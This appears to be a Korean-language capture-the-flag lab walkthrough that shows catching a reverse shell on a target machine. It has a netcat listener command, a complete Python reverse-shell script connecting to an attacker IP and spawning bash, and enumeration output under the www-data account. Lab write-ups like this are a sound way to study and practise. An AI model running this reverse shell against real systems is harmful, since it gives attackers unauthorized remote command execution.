 (root㉿docker-desktop)-[/]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.136.212] from (UNKNOWN) [10.10.247.143] 40290
bash: /root/.bashrc: Permission denied
www-data@ip-10-10-234-59:~$ ls  
ㅣls

Command 'ㅣls' not found, did you mean:

command 'hls' from deb hfsutils (3.2.6-14)
command 'ils' from deb sleuthkit (4.6.7-1build1)
command 'bls' from deb bacula-sd (9.4.2-2ubuntu5)
command 'ols' from deb speech-tools (1:2.5.0-8build1)
command 'als' from deb atool (0.39.0-10)
command 'ls' from deb coreutils (8.30-3ubuntu2)
command 'jls' from deb sleuthkit (4.6.7-1build1)
command 'fls' from deb sleuthkit (4.6.7-1build1)

Try: apt install <deb name>

www-data@ip-10-10-234-59:~$

# 공격대상 컴퓨터 (파이썬 인터프리터) https://www.revshells.com/ 검색해서 실행

```bash
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.8.136.212", 4445))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

subprocess.call(["/bin/bash", "-i"])
```

# www-data 권한으로 시작

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data

# ls 는 안 되는데 path 지정하면 잘 됨

ls -al
ls: cannot open directory '.': Permission denied
$ ls -al /
ls -al /
total 2035784
drwxr-xr-x 18 root root 4096 Jul 21 14:39 .
drwxr-xr-x 18 root root 4096 Jul 21 14:39 ..
lrwxrwxrwx 1 root root 7 Feb 23 2022 bin -> usr/bin
drwxr-xr-x 4 root root 4096 Apr 27 06:25 boot
drwxr-xr-x 17 root root 4000 Jul 21 14:39 dev
drwxr-xr-x 106 root root 4096 Jul 21 14:39 etc
drwxr-xr-x 4 root root 4096 Jul 21 14:39 home
lrwxrwxrwx 1 root root 7 Feb 23 2022 lib -> usr/lib
lrwxrwxrwx 1 root root 9 Feb 23 2022 lib32 -> usr/lib32
lrwxrwxrwx 1 root root 9 Feb 23 2022 lib64 -> usr/lib64